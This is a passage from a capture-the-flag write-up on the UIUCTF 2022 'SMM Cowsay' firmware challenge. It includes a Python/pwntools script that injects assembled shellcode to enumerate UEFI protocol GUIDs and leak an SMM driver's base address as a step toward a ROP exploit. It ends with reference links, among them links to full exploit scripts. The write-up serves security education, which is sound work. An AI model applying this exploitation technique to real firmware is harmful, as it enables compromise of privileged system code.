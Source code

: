 ```
CPU[000]  APIC ID=0000  SMBASE=07FAF000  SaveState=07FBEC00  Size=00000400
```

Now, using the same code we used for both the previous challenges, we can check
every single protocol GUID listed in `MdePkg/MdePkg.dec` and see if the address
returned is after SMBASE:

```python
with open('debug.log') as f:
    for line in f:
        if line.startswith('CPU[000]  APIC ID=0000  SMBASE='):
            smbase = int(line[31:31 + 8], 16)

# Manually or programmatically extract GUIDs from MdePkg/MdePkg.dec

for guid in guids:
    code = asm(f'''
        /* LocateProtocol(&guid, NULL, &protocol) */
        lea rcx, qword ptr [rip + guid]
        xor rdx, rdx
        lea r8, qword ptr [rip + protocol]
        mov rax, {LocateProtocol}
        call rax

        test rax, rax
        jnz fail

        mov rax, qword ptr [rip + protocol]
        ret

    fail:
        ud2

    guid:
        .octa {guid}
    protocol:
    ''')
    conn.sendline(code.hex().encode() + b'\ndone')

    conn.recvuntil(b'RAX: 0x')
    proto = int(conn.recvn(16), 16)

    if proto > smbase:
        log.info('Interesting protocol: GUID = 0x%x, ADDR = 0x%x', guid, proto)
```

Surely enough, by letting the script run for enough time, we find that
`gEfiSmmConfigurationProtocolGuid` returns a pointer to a protocol at a nice
address. Looking at the `debug.log` for loaded drivers we can see that this
address is inside the `PiSmmCpuDxeSmm.efi` SMM driver, and a simple subtraction
gives us its base address.

### Finding ROP gadgets


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31